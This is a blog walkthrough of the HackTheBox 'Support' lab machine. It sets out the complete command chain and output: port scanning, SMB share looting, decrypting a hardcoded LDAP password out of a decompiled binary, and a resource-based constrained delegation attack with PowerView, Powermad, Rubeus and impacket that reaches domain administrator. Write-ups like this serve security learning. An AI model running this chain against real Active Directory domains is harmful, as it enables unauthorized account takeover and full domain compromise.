 ```yaml
---
title: "HackTheBox Support Walkthrough"
date: "2022-09-29"
categories: 
  - "htb-walkthroughs"
tags: 
  - "dig"
  - "dnspy"
  - "evil-winrm"
  - "impacket"
  - "rubeus"
  - "rustscan"
  - "smbclient"
  - "windows"
coverImage: "Support.png"
---
```


As always, we start off with a rustscan.

rustscan --range 1-65535 -a 10.10.11.174 -- -A -T4 -Pn -sC -sV

Open 10.10.11.174:53
Open 10.10.11.174:88
Open 10.10.11.174:135
Open 10.10.11.174:139
Open 10.10.11.174:389
Open 10.10.11.174:445
Open 10.10.11.174:464
Open 10.10.11.174:593
Open 10.10.11.174:3268
Open 10.10.11.174:3269
Open 10.10.11.174:5985
Open 10.10.11.174:9389
Open 10.10.11.174:49668
Open 10.10.11.174:49674
Open 10.10.11.174:49664
Open 10.10.11.174:49686
Open 10.10.11.174:49700
Open 10.10.11.174:54010

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|\_    bind
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2022-09-29 16:24:03Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|\_http-server-header: Microsoft-HTTPAPI/2.0
|\_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack Microsoft Windows RPC
54010/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=9/29%Time=6335C6A9%P=x86\_64-alpine-linux-musl%r
SF:(DNSVersionBindReqTCP,20,"\\0\\x1e\\0\\x06\\x81\\x04\\0\\x01\\0\\0\\0\\0\\0\\0\\x07ver
SF:sion\\x04bind\\0\\0\\x10\\0\\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|\_clock-skew: -2s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 34350/tcp): CLEAN (Timeout)
|   Check 2 (port 19493/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 18339/udp): CLEAN (Timeout)
|\_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|\_    Message signing enabled and required
| smb2-time: 
|   date: 2022-09-29T16:26:20
|\_  start\_date: N/A

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 244.24 seconds

We gain new information. Support.htb seems to be the DC domain name. Lets confirm by using dig to enumerate the DNS servers.

dig @10.10.11.174 +short support.htb 

[![](images/image.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image.png)

Now we can enumerate SMB to see if there is anything interesting.

smbclient -N -L \\\\10.10.11.174

[![](images/image-1.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-1.png)

smbclient -N \\\\\\\\10.10.11.174\\\\support-tools

Support-tools may be hiding relevant files.

[![](images/image-2.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-2.png)

Let's download all files to our local machine.

[![](images/image-3-1024x222.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-3.png)

Unzip UserInfo.exe.zip and try to run the file. I used win64 but could not get the program to stop crashing. I gave up and moved to a windows machine.

[![](images/image-4.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-4.png)

The program seems to be searching LDAP users, let's check if the .exe file has any connection credentials hardcoded. Download dnSpy [https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8](https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8)

Upon inspecting the file. It wasn't hard to find the encrypted password.

[![](images/image-5-1024x576.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-5.png)

getPassword() method is decrypting the password. All we have to do is run the code in our chosen programming language with slight variations. I chose to use C#.

using System.Text;

Console.WriteLine("Hello, World!");
byte\[\] array = Convert.FromBase64String("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E");
byte\[\] array2 = array;
byte\[\] key = Encoding.ASCII.GetBytes("armando");
for (int i = 0; i < array.Length; i++)
{
    array2\[i\] = (byte)(array\[i\] ^ key\[i % key.Length\] ^ 223);
}
Console.WriteLine(Encoding.Default.GetString(array2));

[![](images/image-6-915x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-6.png)

[![](images/image-7-1024x544.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-7.png)

The encrypted password is now decrypted!

Now we can go back to our kali machine and search LDAP for all users.

ldapsearch -x -H ldap://10.10.11.174 -D 'SUPPORT\\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | tee ldap.txt

Browsing through ldap.txt. The account support has a string following 'info:' that looks a lot like a password.

[![](images/image-8.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-8.png)

We'll try connecting using evil-winrm.

[![](images/image-9-1024x178.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-9.png)

And we've got our foothold on the machine!

We'll run winpeas.exe since it's already on the target machine. Nothing interesting comes back.

We'll need to download Powerview and Powermad and then upload and import them into win-rm.

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

Let's check our object creation permissions.

Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb

We're able to add up to 10 computers to the domain. Let's try adding a new object.

New-MachineAccount -MachineAccount MYACC -Password $(ConvertTo-SecureString 'password123' -AsPlainText -Force) -Verbose
Get-DomainComputer myacc -Properties objectsid

[![](images/image-10-1024x170.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-10.png)

The code below was borrowed from a friend. It's used to create a new security descriptor.

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"
$SDBytes = New-Object byte\[\] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

Now we need to upload Rubeus.exe into evil-winrm.

upload /root/Rubeus.exe
./Rubeus.exe hash /password:password123 /user:MYACC$ /domain:support.htb

[![](images/image-11.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-11.png)

Save the aes256 hash because we'll use it later to generate a Kerberos ticket.

back on the kali machine. We will use the aes key to impersonate admin.

getST.py support.htb/MYACC -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey C832FA9E499757C08A5AC999526613B97D6D5C6B0ABA5158512977266B817F72

[![](images/image-12-1024x144.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-12.png)

export KRB5CCNAME=administrator.ccache
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k

[![](images/image-14.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-14.png)

And we're admin!

[![](images/image-13.png)](http://localhost/wordpress/wp-content/uploads/2022/09/image-13.png)
